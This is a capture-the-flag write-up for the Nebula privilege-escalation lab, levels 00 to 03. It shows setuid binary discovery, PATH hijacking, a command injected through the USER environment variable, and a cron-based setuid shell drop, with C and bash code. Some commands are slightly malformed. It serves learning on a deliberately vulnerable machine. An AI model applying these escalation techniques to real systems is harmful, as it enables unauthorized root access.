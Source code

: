 # Nebula (Exploit Education) Write-Up

## Level 00

We use `find . -user flag00 -perm -u=s 2>/dev/null` to find programs with the setuid bit. We can then just execute `/bin/…/flag00` to have a shell with `flag00`.

## Level 01

We can manipulate the `echo` program. We write a simple C program that opens up a shell:

``` c
#include <stdlib.h>

int main(int argc, char **argv, char **envp)
{
  system("/bin/bash");
}
```

We compile it in the home directory and add the path to the home directory to the `PATH` variable in the environnement. Thus when the program will search for `echo` it will launch our modified version.

## Level 02

In this level we can manipulate the `USER` env variable. Again, we use our simple C program (called `exploit`) that launches a shell. We can then set the variable using `export USER='level02 && /home/level02/exploit'`. By launching `flag02` we get a shell with user `flag02`.

## Level 03

Here, the crontab executes everything places in `/home/flag03/writable.d/` berfore deleting it. 

We first create a small C program that launches an elevated shell with the effective UID : 

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp)
{
  uid_t euid = geteuid();
  setresuid(euid, euid, euid);
  
  system("/bin/bash");
}
```

We then create a script that copies this program, makes it executable for everyone and setuid it:

```bash
#!/bin/env
cp /tmp/exploit /home/flag03/exploit
chmod +s o+x /home/flag03/exploit
```
